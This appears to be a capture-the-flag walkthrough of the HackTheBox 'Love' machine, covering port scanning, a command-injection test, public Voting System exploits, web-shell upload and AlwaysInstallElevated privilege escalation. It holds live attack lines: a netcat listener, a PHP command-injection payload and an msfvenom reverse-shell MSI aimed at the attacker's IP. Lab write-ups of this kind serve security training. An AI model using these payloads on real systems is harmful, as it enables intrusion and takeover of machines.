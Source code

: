 ```yaml
---
title: "Love"
date: 2023-11-07
categories: HTB
tags: ["love", "htb walkthrough", "ctf", "cybersecurity", "hackthebox", "htb writeup", "penetration testing", "writeup", "htb"]
---
```


## Enumeration
# Nmap

```sh
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Voting System using PHP
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in/organizationalUnitName=love.htb/localityName=norway/emailAddress=roy@love.htb
|_http-title: 403 Forbidden
445/tcp   open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack
| mysql-info: 
|_  MySQL Error: Host '10.10.14.42' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   Arucer, Hello, NULL, SSLSessionReq, ZendJavaBridge, afp, dominoconsole, epmd, gkrellm, ibm-mqseries, mongodb, redis-server, riak-pbc, tarantool, vp3: 
|_    Host '10.10.14.42' is not allowed to connect to this MariaDB server
5000/tcp  open  http         syn-ack Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2024-07-21T08:04:42+00:00; +21m34s from scanner time.
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
7680/tcp  open  pando-pub?   syn-ack
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack Microsoft Windows RPC
```
## HTTP
### Gobuster

![gobuster](/assets/images/love11.png)

### Screenshots

![screenshot](/assets/images/love1.png)

http://staging.love.htb/

![screenshot](/assets/images/love2.png)

http://staging.love.htb/beta.php

![/assets/images/love3.png]

### Test for command injection

![/assets/images/love7.png]

![/assets/images/love6.png]

### Test for reverse shell

```sh
# kali
python3 -m http.server 80
# kali
nc -lvnp 9001
# form
http://10.10.14.42/$(<?=`$_GET[0]`?>)
```

![/assets/images/love8.png]

### `/admin`

http://10.10.10.239/Admin/

![/assets/images/love9.png]

### `/plugins`

http://10.10.10.239/plugins/

![/assets/images/love10.png]

# Foothold
- Searching for `voting system` gives public exploit
- Using a [public exploit](https://www.exploit-db.com/exploits/49843) gives initial shell as phoebe.

The public exploit
![/assets/images/love12.png]

http://10.10.10.239/admin

![/assets/images/love13.png]

http://10.10.10.239/

![/assets/images/love14.png]

-> did not work on this URL

![/assets/images/love15.png]

Trying a different exploit [Voting Ssytem 1.0-Remote Code Execution (Unauthenticated)](https://www.exploit-db.com/exploits/49846). 

![/assets/images/love16.png]

upload a shell

![/assets/images/love17.png]

rev.ps1

![/assets/images/love18.png]

![/assets/images/love19.png]

PHP Ivan web shell

![/assets/images/love20.png]

# Privilege Escalation

![/assets/images/love21.png]

![/assets/images/love22.png]

![/assets/images/love23.png]

![/assets/images/love24.png]

[HackTricks on AlwaysInstallElevated](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

![/assets/images/love25.png]

```sh
msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.42 LPORT=443 -f msi -o rev.msi
```

![/assets/images/love26.png]
